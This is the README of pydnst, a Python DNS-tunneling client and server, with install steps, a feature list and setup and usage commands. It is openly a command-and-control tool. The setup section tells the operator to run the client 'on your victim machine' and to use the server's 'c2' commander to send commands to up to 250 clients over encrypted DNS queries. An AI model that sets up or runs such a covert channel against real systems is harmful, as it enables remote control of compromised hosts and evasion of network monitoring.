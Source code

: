 # pydnst
**DNS Tunneling client and server in Python**

<a name="installation"></a>
## INSTALLATION

    pip3 install pydnst
    
For convenience the client and server are in the same package, however the "rich" dependency is only used by the server.

<a name="features"></a>
## FEATURES

pydnst is a DNS tunneling implementation in Python, supporting Linux only (the client might require a few paths tweaks to run on Windows).  
The client sends keep-alive requests every 30 seconds. If the server has a command to send to a specific client, it sends it in a response to a keep-alive. Then the client sends another query containing the command response.  
The server can manage up to 250 clients, communication is encrypted with a unique Fernet key per client, generated on the fly and shared using RSA encryption.  
A simple rich interface on the server side enables to send commands to specific clients, and watch the responses in real-time.  
The client being implemented in Python is not stealth.  

<a name="setup"></a>
## SET UP

First acquire access to a machine with a public IP, this is where the pydnst server will run.  
Then acquire a DNS name, as short as possible, and configure its nameservers with glue records pointing to your public IP.  
You can then configure your pydnst.toml field DNST_SERVER_NAME, and run pydnst client on your victim machine.  


<a name="usage"></a>
## USAGE

### Install the pydnst package on client and server

    pip3 install pydnst
    python3 -m pydnst --help
    
### Generate certificates (recommended), to encrypt the shared key transfer between client and server
This creates server_private.pem (copy to server) and server_public.pem (copy to client).
After copying server_private.pem to server, don't forget to chmod 600.

    python3 -m pydnst create_certificates
    
### Generate configuration
This creates pydnst.toml : edit if needed and then copy to client and server.  
On client, edit the MAIN_INTERFACE to use the DNS server of this interface, or DNS_SERVER_ADDRESS to circumvent it.  
On server, edit the LISTENING_INTERFACE.  
On both, specify the DNST_SERVER_NAME (the DNS name purchased).  

    python3 -m pydnst config
    
### On server
In one terminal, run the server (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst server run
    
In another terminal, run the commander (pydnst.toml must be in the current directory), which enables to send commands and watch responses in real-time.  

    python3 -m pydnst server c2
    
### On client
In one terminal, run the client (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst client run


    
